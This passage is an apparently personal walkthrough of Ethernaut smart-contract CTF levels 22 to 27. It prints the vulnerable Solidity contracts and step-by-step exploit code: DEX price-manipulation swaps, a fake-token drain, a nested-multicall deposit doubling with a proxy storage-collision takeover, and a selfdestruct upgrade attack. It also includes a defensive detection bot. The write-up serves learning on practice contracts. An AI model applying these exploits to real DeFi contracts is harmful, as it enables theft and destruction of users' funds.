The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation.

You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
### Quick note

Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.

  Things that might help:

- How is the price of the token calculated?
- How does the `swap` method work?
- How do you `approve` a transaction of an ERC20?
- Theres more than one way to interact with a contract!
- Remix might help
- What does "At Address" do?

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

Look at the pricing formula:

```c
function getSwapPrice(address from, address to, uint256 amount)
    public
    view
    returns (uint256)
{
    return ((amount * IERC20(to).balanceOf(address(this)))
            / IERC20(from).balanceOf(address(this)));
}
```

Price is calculated as:

```c
amount * (DEX_to_balance / DEX_from_balance)
```

This is NOT constant-product (like Uniswap).

It’s just a simple ratio.

This makes it manipulatable.

You:

```
token1: 10
token2: 10
```

DEX:

```
token1: 100
token2: 100
```

Because price depends on current DEX balances:

If you:

- Swap all your token1 for token2
- Then swap all token2 for token1
- Repeat…

You skew the ratio more each time.

Eventually one side drains completely.

```js
await contract.approve(contract.address, 1000)
```

```js
let t1 = await contract.token1()
let t2 = await contract.token2()
```

```js
await contract.swap(t1, t2, 10)
```

```js
await contract.swap(t2, t1, 20)
```

```js
await contract.swap(t1, t2, 24)
```

```js
await contract.swap(t2, t1, 30)
```

```js
await contract.swap(t1, t2, 41)
```

```js
await contract.swap(t2, t1, 45)
```

```js
await contract.swap(t1, t2, 65)
```

Drain:

```js
await contract.swap(t2, t1, 110)
```

Check:

```js
await contract.balanceOf(t1, contract.address)
await contract.balanceOf(t2, contract.address)
```

One of them should be zero. Which means you have drained it so submit.

```js
let t1 = await contract.token1()
let t2 = await contract.token2()
"0xe7fDabE528D21f4A008CC7B479798A0FD521CC98"
(await contract.balanceOf(t1, contract.address)).toString()
"106"
(await contract.balanceOf(t2, contract.address)).toString()
"40"
(await contract.balanceOf(t1, player)).toString()
"4"
(await contract.balanceOf(t2, player)).toString()
"70"
```

If math doesn't calculate you can use GPT to ask.
# 23 - Dex Two

This level will ask you to break `DexTwo`, a subtly modified `Dex` contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.

You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

  Things that might help:

- How has the `swap` method been modified?

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

**Dex (old)

```c
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

**DexTwo (new):** That line is **completely gone.**

This means DexTwo will swap **any** ERC20 token - including ones you deploy yourself. You can create a fake token, seed the DEX with it, and manipulate the price ratio to drain the real tokens.

The pricing formula is still:

```
swapAmount = amount * (DEX_to_balance / DEX_from_balance)
```

If you send 1 fake token to the DEX (so DEX has 1 fake), then swap 1 fake token for t1:

```
swapAmount = 1 * (100 / 1) = 100
```

Deploy a fake ERC 20 Token in Remix.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract FakeToken is ERC20 {
    constructor() ERC20("Fake", "FAKE") {
        _mint(msg.sender, 400);
    }
}
```

**Transfer 1 fake token to the DEX** (so DEX ratio becomes 1:100):

```c
// In Remix, call transfer on FakeToken:
// to: <DexTwo contract address>
// amount: 1
```



**Step - approve DexTwo to spend your FAKE:**

- Function: `approve`
- `spender`: your DexTwo instance address
- `amount`: `400`
- Click **transact**

Now in ethernaut:

```js
let t1 = await contract.token1()
let t2 = await contract.token2()
let fake = "0xYOUR_FAKETOKEN_ADDRESS_DEPLOYED"
```

```js
await contract.swap(fake, t1, 1)
```

**drain t2** (DEX now has 2 fake tokens):

```js
await contract.swap(fake, t2, 2)
```

verify both are zero:

```js
(await contract.balanceOf(t1, contract.address)).toString()
(await contract.balanceOf(t2, contract.address)).toString()
```

Submit.
# 24 - Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

  Things that might help:

- Understanding how `delegatecall` works and how `msg.sender` and `msg.value` behaves when performing one.
- Knowing about proxy patterns and the way they handle storage variables.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

When a proxy uses `delegatecall`, the logic contract executes **in the proxy's storage context**. Storage is laid out by **slot position**, not variable name.

```
PuzzleProxy storage:        PuzzleWallet storage:
slot 0 → pendingAdmin       slot 0 → owner
slot 1 → admin              slot 1 → maxBalance
```

These **overlap**. This is the entire vulnerability:

- Writing `owner` in PuzzleWallet = writing `pendingAdmin` in PuzzleProxy
- Writing `maxBalance` in PuzzleWallet = writing `admin` in PuzzleProxy

Become `admin` of PuzzleProxy = overwrite **slot 1** = overwrite `maxBalance` in PuzzleWallet with your address.

To call `setMaxBalance` you need:

1. Be whitelisted
2. Contract ETH balance must be 0

But the contract has some ETH already. You need to **drain it first**.

Every function in Solidity has a **4-byte identifier** called a selector. It's how the EVM knows which function to call when a transaction comes in.

**How it's calculated:**

```
keccak256("functionName(paramType1,paramType2)") → take first 4 bytes
```

For example:

```
keccak256("transfer(address,uint256)")
= 0xa9059cbb2ab09eb219583f4a59a5d0623ade346d962bcd4e46b11da047c9049b
selector = 0xa9059cbb  ← just first 4 bytes
```

**How it's used in a transaction:**

```
transaction data = [4 byte selector] + [encoded arguments]
0xa9059cbb + 000000000000000000000000<address>0000000000000000000000000000000000000000000000000000000000000001
```

`multicall` tries to prevent depositing twice with the same `msg.value`:

```c
if (selector == this.deposit.selector) {
    require(!depositCalled, "Deposit can only be called once");
    depositCalled = true;
}
```

But it only checks the **top-level** selector. You can bypass this by:

```c
multicall([
    deposit(),                    ← depositCalled = true, msg.value counted once
    multicall([deposit()])        ← nested multicall! depositCalled resets to false
])                                  msg.value counted AGAIN for free
```

So you send **0.001 ETH** but your `balances[you]` gets credited **0.002 ETH**. Now you can drain more than you put in.
### Step 1 - Become owner of PuzzleWallet via storage collision

`proposeNewAdmin` writes to slot 0 (pendingAdmin in proxy = owner in wallet):

```js
let iface = web3.eth.abi.encodeFunctionCall({name:'proposeNewAdmin',type:'function',inputs:[{type:'address',name:'_newAdmin'}]},[player])
```

```js
await web3.eth.sendTransaction({from:player, to:contract.address, data:iface})
```

```js
await contract.owner() // should return your address
```
## Step 2 - Whitelist yourself

```js
await contract.addToWhitelist(player)
```
## Step 3 - Check contract balance

```js
await getBalance(contract.address)
```

Note the value shown (probably `0.001`).
## Step 4 - Encode deposit calldata

```js
let depositData = web3.eth.abi.encodeFunctionCall({name:'deposit',type:'function',inputs:[]},[])
```
## Step 5 - Encode nested multicall

```js
let nestedMulticall = web3.eth.abi.encodeFunctionCall({name:'multicall',type:'function',inputs:[{type:'bytes[]',name:'data'}]},[[depositData]])
```
## Step 6 - Call multicall with both, sending 0.001 ETH

```js
await contract.multicall([depositData, nestedMulticall], {value: toWei('0.001')})
```

Verify its doubled:

```js
(await contract.balances(player)).toString() // should be 0.002 ETH in wei = "2000000000000000"
```

Now drain the contract:

```js
await contract.execute(player, toWei('0.002'), '0x')
```

```js
await getBalance(contract.address) // should be "0"
```
## Step 7 - Overwrite admin via setMaxBalance

```js
await contract.setMaxBalance(player)
```

Verify you are admin:

```js
await web3.eth.getStorageAt(contract.address, 1) // should return your address
```
# 25 - MotorBike

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to `selfdestruct` its engine and make the motorbike unusable ?

Things that might help:

- [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
- [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
- [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

```c
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

In UUPS (Universal Upgradeable Proxy Standard), the **upgrade logic lives in the implementation**, not the proxy. The proxy is very thin - it just delegates everything to the implementation address stored in a special EIP-1967 slot.

```c
User → Motorbike (proxy) → delegatecall → Engine (implementation)
```
### EIP-1967 Storage Slots

Instead of storing the implementation address in slot 0 (which causes storage collisions like we saw in PuzzleWallet), EIP-1967 uses a **pseudo-random slot**:

```c
slot = keccak256("eip1967.proxy.implementation") - 1
    = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
```

This slot is extremely unlikely to collide with any normal variable.

The `Engine` contract uses `initializer` modifier to prevent `initialize()` from being called twice , **but only in the proxy's storage context**.

When Motorbike deployed, it called:

```c
_logic.delegatecall(abi.encodeWithSignature("initialize()"))
```

This ran `initialize()` in the **proxy's storage**, setting `upgrader` and `horsePower` there. But the **Engine contract's own storage** was never initialized , `initialized = false` still in Engine directly.

So you can call `initialize()` **directly on the Engine contract**, bypassing the proxy entirely, and become the `upgrader`.


1. Find Engine's direct address from EIP-1967 slot
2. Call initialize() directly on Engine → become upgrader
3. Deploy a Killer contract with selfdestruct
4. Call `upgradeToAndCall(killerAddress, selfdestructCalldata)`
5. Engine selfdestructs → motorbike is bricked
## Step 1 - Get Engine's direct address

```c
let engineAddress = await web3.eth.getStorageAt(
    contract.address,
    "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"
)
```

```js
// Clean up the address (remove extra leading zeros)
engineAddress = "0x" + engineAddress.slice(26)
```
## Step 2 - Call initialize() directly on Engine

```js
let initData = web3.eth.abi.encodeFunctionCall({
    name: 'initialize',
    type: 'function',
    inputs: []
}, [])
```

```js
await web3.eth.sendTransaction({
    from: player,
    to: engineAddress,
    data: initData
})
```
## Step 3 - Verify you are now upgrader

```js
let upgraderSlot = await web3.eth.getStorageAt(engineAddress, 0)
console.log(upgraderSlot) // should contain your address
```
## Step 4 - Deploy Killer contract in Remix

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Killer {
    function kill() external payable {
        selfdestruct(payable(address(0)));
    }
}
```

Deploy this on Sepolia in Remix. Note the address.
## Step 5 - Encode the kill() call

```js
let killData = web3.eth.abi.encodeFunctionCall({
    name: 'kill',
    type: 'function',
    inputs: []
}, [])
```
## Step 6 - Encode upgradeToAndCall

```js
let upgradeData = web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        { type: 'address', name: 'newImplementation' },
        { type: 'bytes', name: 'data' }
    ]
}, ["0xYOUR_KILLER_ADDRESS", killData])
```
## Step 7 - Send directly to Engine

```js
await web3.eth.sendTransaction({
    from: player,
    to: engineAddress,
    data: upgradeData
})
```

Engine `selfdestruct`s. The Motorbike proxy now points to a dead contract. It is permanently bricked.  Now fucking Submit.

Above solution breaks after new update.
## Why This Breaks After Dencun (EIP-6780)

EIP-6780 changed `selfdestruct`:

```
Before Dencun:                    After Dencun:
selfdestruct() anywhere     →     selfdestruct() ONLY works if called
destroys contract code            in SAME TX as contract creation
```

So after Dencun, calling `selfdestruct` on the Engine (which was created earlier) does **nothing** to its code - it just sends ETH.
# 26 - Double Entry Point

This level features a `CryptoVault` with special functionality, the `sweepToken` function. This is a common function used to retrieve tokens stuck in a contract. The `CryptoVault` operates with an `underlying` token that can't be swept, as it is an important core logic component of the `CryptoVault`. Any other tokens can be swept.

The underlying token is an instance of the DET token implemented in the `DoubleEntryPoint` contract definition and the `CryptoVault` holds 100 units of it. Additionally the `CryptoVault` also holds 100 of `LegacyToken LGT`.

In this level you should figure out where the bug is in `CryptoVault` and protect it from being drained out of tokens.

The contract features a `Forta` contract where any user can register its own `detection bot` contract. Forta is a decentralized, community-based monitoring network to detect threats and anomalies on DeFi, NFT, governance, bridges and other Web3 systems as quickly as possible. Your job is to implement a `detection bot` and register it in the `Forta` contract. The bot's implementation will need to raise correct alerts to prevent potential attacks or bug exploits.

Things that might help:

- How does a double entry point work for a token contract?

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/access/Ownable.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

interface DelegateERC20 {
    function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
}

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function setDetectionBot(address detectionBotAddress) external;
    function notify(address user, bytes calldata msgData) external;
    function raiseAlert(address user) external;
}

contract Forta is IForta {
    mapping(address => IDetectionBot) public usersDetectionBots;
    mapping(address => uint256) public botRaisedAlerts;

    function setDetectionBot(address detectionBotAddress) external override {
        usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
    }

    function notify(address user, bytes calldata msgData) external override {
        if (address(usersDetectionBots[user]) == address(0)) return;
        try usersDetectionBots[user].handleTransaction(user, msgData) {
            return;
        } catch {}
    }

    function raiseAlert(address user) external override {
        if (address(usersDetectionBots[user]) != msg.sender) return;
        botRaisedAlerts[msg.sender] += 1;
    }
}

contract CryptoVault {
    address public sweptTokensRecipient;
    IERC20 public underlying;

    constructor(address recipient) {
        sweptTokensRecipient = recipient;
    }

    function setUnderlying(address latestToken) public {
        require(address(underlying) == address(0), "Already set");
        underlying = IERC20(latestToken);
    }

    /*
    ...
    */

    function sweepToken(IERC20 token) public {
        require(token != underlying, "Can't transfer underlying token");
        token.transfer(sweptTokensRecipient, token.balanceOf(address(this)));
    }
}

contract LegacyToken is ERC20("LegacyToken", "LGT"), Ownable {
    DelegateERC20 public delegate;

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }

    function delegateToNewContract(DelegateERC20 newContract) public onlyOwner {
        delegate = newContract;
    }

    function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);
        } else {
            return delegate.delegateTransfer(to, value, msg.sender);
        }
    }
}

contract DoubleEntryPoint is ERC20("DoubleEntryPointToken", "DET"), DelegateERC20, Ownable {
    address public cryptoVault;
    address public player;
    address public delegatedFrom;
    Forta public forta;

    constructor(address legacyToken, address vaultAddress, address fortaAddress, address playerAddress) {
        delegatedFrom = legacyToken;
        forta = Forta(fortaAddress);
        player = playerAddress;
        cryptoVault = vaultAddress;
        _mint(cryptoVault, 100 ether);
    }

    modifier onlyDelegateFrom() {
        require(msg.sender == delegatedFrom, "Not legacy contract");
        _;
    }

    modifier fortaNotify() {
        address detectionBot = address(forta.usersDetectionBots(player));

        // Cache old number of bot alerts
        uint256 previousValue = forta.botRaisedAlerts(detectionBot);

        // Notify Forta
        forta.notify(player, msg.data);

        // Continue execution
        _;

        // Check if alarms have been raised
        if (forta.botRaisedAlerts(detectionBot) > previousValue) revert("Alert has been triggered, reverting");
    }

    function delegateTransfer(address to, uint256 value, address origSender)
        public
        override
        onlyDelegateFrom
        fortaNotify
        returns (bool)
    {
        _transfer(origSender, to, value);
        return true;
    }
}
```

The name says it all. The **DET token can be accessed via TWO entry points**:

|Entry Point|How|
|---|---|
|Direct|Call `DET.transfer()` directly|
|Indirect|Call `LGT.transfer()` → which calls `DET.delegateTransfer()`|

DET stands for **DoubleEntryPoint Token**. It's an ERC20 token that has **two ways to move its balance** - hence "double entry point."
### LegacyToken (LGT)

This is the **old token** that was replaced by DET. Think of it like a deprecated v1 token

```c
contract LegacyToken is ERC20("LegacyToken", "LGT"), Ownable {
    DelegateERC20 public delegate;  // Points to DET contract

    function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);   // Normal transfer if no delegate
        } else {
            return delegate.delegateTransfer(to, value, msg.sender); // Forward to DET!
        }
    }
}
```
### CryptoVault

A simple vault that holds tokens and can sweep non-underlying tokens.

```c
contract CryptoVault {
    address public sweptTokensRecipient;  // Where swept tokens go
    IERC20 public underlying;             // = DET (the protected token)

    function sweepToken(IERC20 token) public {
        require(token != underlying, "Can't transfer underlying token");
        // ^^^ PROTECTION: can't sweep DET directly

        token.transfer(sweptTokensRecipient, token.balanceOf(address(this)));
        // ^^^ BUG: if token=LGT, this secretly drains DET!
    }
}
```
### Forta (On-Chain IDS)

Forta is an **Intrusion Detection System** built into the contract.

```c
contract Forta is IForta {
    mapping(address => IDetectionBot) public usersDetectionBots;
    // user → their bot

    mapping(address => uint256) public botRaisedAlerts;
    // bot → how many alerts it raised

    function setDetectionBot(address detectionBotAddress) external {
        usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
        // Each user registers their own bot
    }

    function notify(address user, bytes calldata msgData) external {
        // Called by DET during every delegateTransfer
        // Forwards transaction data to user's bot for analysis
        if (address(usersDetectionBots[user]) == address(0)) return;
        try usersDetectionBots[user].handleTransaction(user, msgData) {
            return;
        } catch {}
    }

    function raiseAlert(address user) external {
        // Bot calls this if it detects an attack
        if (address(usersDetectionBots[user]) != msg.sender) return;
        // ^^^ Only registered bot can raise alerts for its user
        botRaisedAlerts[msg.sender] += 1;
    }
}
```

```c
ADDRESSES (what the require check sees):
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
LGT  →  0xABCD...1234    ─┐
                           ├── DIFFERENT addresses → check passes
DET  →  0x9876...5678    ─┘


BEHAVIOR (what actually happens):
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

LGT.transfer() ──────────────────────────► moves DET balance
DET.transfer() ──────────────────────────► moves DET balance
                                                ▲
                                         SAME BALANCE!
                                         TWO entry points
```

Both LGT and DET control the **exact same pool of tokens** inside DET's ERC20 storage. We can add rule in bot and deploy:

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IForta {
    function raiseAlert(address user) external;
}

contract DetectionBot {

    address private cryptoVault;
    IForta  private forta;

    constructor(address _cryptoVault, address _forta) {
        cryptoVault = _cryptoVault;
        forta = IForta(_forta);
    }

    function handleTransaction(address user, bytes calldata msgData) external {

        // DECODE origSender from calldata
        // ┌──────────────────────────────────────────┐
        // │ bytes  0- 3 │ function selector (4 bytes) │
        // │ bytes  4-35 │ `to`        (32 bytes)      │
        // │ bytes 36-67 │ `value`     (32 bytes)      │
        // │ bytes 68-99 │ `origSender`(32 bytes) ◄──  │
        // └──────────────────────────────────────────┘

        (, , address origSender) = abi.decode(
            msgData[4:],                    // skip 4-byte selector
            (address, uint256, address)     // decode 3 params
        );

        // THE ONE RULE:
        // Vault should NEVER be the one initiating a token transfer
        if (origSender == cryptoVault) {
            forta.raiseAlert(user);   // veto this transaction
        }
    }
}
```

Before deploying:

```js
// In browser console on Ethernaut

// 1. Get addresses you need
const fortaAddr = await contract.forta()
const vaultAddr = await contract.cryptoVault()

console.log("Forta:", fortaAddr)
console.log("Vault:", vaultAddr)

// 2. Deploy DetectionBot in Remix
//    Constructor: (vaultAddr, fortaAddr)
//    Copy deployed bot address → BOT_ADDRESS

// 3. Register bot with Forta
const fortaABI = ["function setDetectionBot(address) external"]

const forta = new web3.eth.Contract(
  [{"inputs":[{"name":"detectionBotAddress","type":"address"}],"name":"setDetectionBot","outputs":[],"stateMutability":"nonpayable","type":"function"}],
  "0xc6fB2a97d2F1d50CF4beaf0082B8eC6E0A5f641c"
)

await forta.methods.setDetectionBot("PASTE_YOUR_BOT_ADDRESS").send({from: player})

// 4. Confirm
const botRegistered = await contract.forta()
// Submit instance
```
# 27 - Good Samartian

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

- [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)

```c
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

